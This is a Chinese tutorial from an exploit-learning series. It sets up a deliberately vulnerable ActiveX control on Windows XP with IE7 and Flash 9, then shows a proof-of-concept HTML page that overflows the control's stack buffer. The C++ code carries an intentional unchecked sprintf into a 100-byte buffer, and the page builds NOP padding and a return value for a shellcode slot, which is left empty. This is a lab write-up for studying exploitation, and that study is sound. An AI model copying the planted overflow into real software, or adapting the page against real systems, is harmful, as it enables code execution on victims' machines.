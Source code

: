 - 下载[IE7-for-XP-x86-中文](https://pan.moeomu.com/Tutorial/0Day安全-资料/IE7-WindowsXP-x86-chs.exe)安装包
- 下载[Flash Player ActiveX `v9.0.124`](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)安装包
- 创建一个MFC ActiveX控件，我将我创建的工程打包了一份，在此[下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH_SRC.zip)
- 详细设置图

![BzaLDA.png](https://s3.ax1x.com/2020/11/12/BzaLDA.png)

- 使用Unicode字符集，禁用编译优化选项，在静态库中使用MFC，使用release版本编译

```cpp
void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("moeomu"); //定位该函数的标记
	char dest[100];
	sprintf(dest, "%s", str);
}
```

- `VulnerAX_SEH.idl`中`CVulnerAX_SEHCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

#### 其它步骤

- 注册控件：`Regsvr32 路径\控件名.ocx`
- 注册好后我们可以在web页面中以如下方式调用我们的函数

```html
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	test.test("testest");
</script>
```

#### 触发漏洞

##### 构造POC页面

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var shellcode = "";
	var s = "\u9090";
	while (s.length < 54)
	{
		s += "\u9090";
	}
	s += "\u3001\u3008";
	s += shellcode;
	test.test(s);
</script>

```